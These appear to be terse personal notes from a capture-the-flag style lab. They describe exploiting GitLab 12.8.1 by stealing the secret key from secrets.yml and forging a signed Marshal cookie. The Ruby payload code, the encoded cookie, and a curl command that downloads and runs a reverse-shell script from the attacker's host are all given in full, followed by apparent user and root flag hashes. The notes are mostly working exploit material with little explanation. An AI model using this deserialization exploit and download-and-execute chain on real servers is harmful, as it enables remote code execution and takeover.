



Secrets.yml

To obtain secrets file:
/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

To get Docker:
https://hub.docker.com/r/gitlab/gitlab-ce/tags/Get Docker v12.8.1
- The name after “ -it ” will change
Open the secrets file you took from the server - copy the secret key
Copy this line from the SERVER SECRET - PASTE into YOUR SECRETS FILE
Shell
Create bash one liner into bash.sh
Create pythjon server local
1.
python -m SimpleHTTPServer
REPLACE IP AND PORT WITH YOURS FOR REVERSE SHELL
IN DOCKER SESSION:
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `curl 10.10.14.123:4545/bash.sh -o /tmp/bash.sh && chmod 777 /tmp/bash.sh && bash /tmp/bash.sh` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiAZojY29kaW5nOlVURi04Cl9lcmJvdXQgPSArJyc7IF9lcmJvdXQuPDwoKCBgY3VybCAxMC4xMC4xNC4xMjM6NDU0NS9iYXNoLnNoIC1vIC90bXAvYmFzaC5zaCAmJiBjaG1vZCA3NzcgL3RtcC9iYXNoLnNoICYmIGJhc2ggL3RtcC9iYXNoLnNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--8de4b122e2a07a71a046d57ef140aebd4e44283f
Dexter

Sign into git

USER: 4066d22a98b0266105e4aecb3070a994
Root
ROOT: 00f6b8bfbd9dbd21eadc617452091209